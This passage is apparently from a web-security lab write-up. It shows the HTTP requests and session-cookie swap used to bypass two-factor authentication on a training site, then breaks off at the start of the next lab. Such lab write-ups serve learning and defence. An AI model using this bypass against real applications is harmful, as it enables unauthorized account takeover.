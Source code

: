 Its response looks like this

```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=s0NR83jd3Ikb7ZO1l3pfuV6GSn0MQoZ9; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

 They check the MFA code and if that's correct they will redirect us to the `/my-account` endpoint if you see they have the same cookie that we get when we send a login to the `/login` endpoint. If the code doesn't match they show an error message `MFA-code is incorrect`.

Knowing this we send a `/login` request to the burp repeater and sent that request to the server. The `/login` request look like the following

```
POST /login HTTP/2
Host: 0aae0022045642b2c00790de00220030.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: https://0aae0022045642b2c00790de00220030.web-security-academy.net
Referer: https://0aae0022045642b2c00790de00220030.web-security-academy.net/login2

username=carlos&password=montoya
```

The server checks the credentials and issues a session cookie and redirects us to the `/login2` endpoint, we just copy the session cookie and now send the `/my-account` request to the repeater and change its cookie with the cookie we just copy and sent the request. The `/my-account` request will look like the following.

```
GET /my-account HTTP/2
Host: 0aae0022045642b2c00790de00220030.web-security-academy.net
Cookie: session=[Copied Session Cookie Here]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
```

We will see the server show us the account dashboard of the `carlos` user. We see there the application logic doesn't enforce the steps on the server side and that leads to the 2-factor authentication bypassed.

### LAB #10: Insufficient workflow validation

**Given Credentials:**

```
wiener:peter
```

**Objective:**
